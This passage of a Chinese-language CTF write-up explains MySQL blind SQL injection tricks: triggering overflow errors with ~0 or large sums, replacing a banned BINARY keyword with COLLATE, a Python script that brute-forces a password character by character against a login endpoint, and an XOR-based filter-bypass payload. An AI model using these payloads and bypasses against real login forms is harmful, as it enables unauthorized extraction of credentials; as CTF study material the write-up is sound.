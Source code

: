 注意 `1E0+~0`是不会报溢出错误的，因为使用了科学计数法，范围增大了。然后还有一个问题就是要区分大小写，当时那个题是把binary禁了的，这里我们可以使用COLLATE’utf8mb4_bin’或COLLATE’utf8mb4_0900_as_cs’代替binary：

```
mysql> SELECT 'abc' LIKE 'ABC';
        -> 1
mysql> SELECT 'abc' LIKE _utf8mb4 'ABC' COLLATE utf8mb4_0900_as_cs;
        -> 0
mysql> SELECT 'abc' LIKE _utf8mb4 'ABC' COLLATE utf8mb4_bin;
        -> 0
mysql> SELECT 'abc' LIKE BINARY 'ABC';
        -> 0
```

最后也就是一个很普通的盲注了，附一个脚本：

```
import requests
import time

session = requests.session()

burp0_url = "http://47.107.231.226:30631/login"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0",
                 "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
                 "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate",
                 "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://47.107.231.226:30631", "Connection": "close", "Referer": "http://47.107.231.226:30631/",
                 "Upgrade-Insecure-Requests": "1"}

alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!.@%&*{}[]_-^/"
password = '^'

while True:
    for i in alphabet:
        burp0_data = {"username": f"1'||case+1E0when`password`regexp'{password + i}'COLLATE'utf8mb4_bin'then+1E0else+!0E0+~0+!0E0end||'0", "password": "6878"}
        r = session.post(burp0_url, headers=burp0_headers, data=burp0_data)
        if r.status_code == 401:
            print(i)
            password += i
            break
        time.sleep(0.3)
    print(password)
```

这里再引申一下，我们在这里触发报错使用了~进行取反，这玩意儿如果被ban了怎么办呢？事实上~0是有具体的值的，就是9223372036854775807，所以用最大数加一即9223372036854775807+1也是能引发报错，除此之外还可以用异或，这个payload也行：

```
username=1'||case'1'when`username`COLLATE'utf8mb4_0900_as_cs'like'a%'then'1'else'1'^18446744073709551614%252b2^'1'end%253d'0&password=123
```
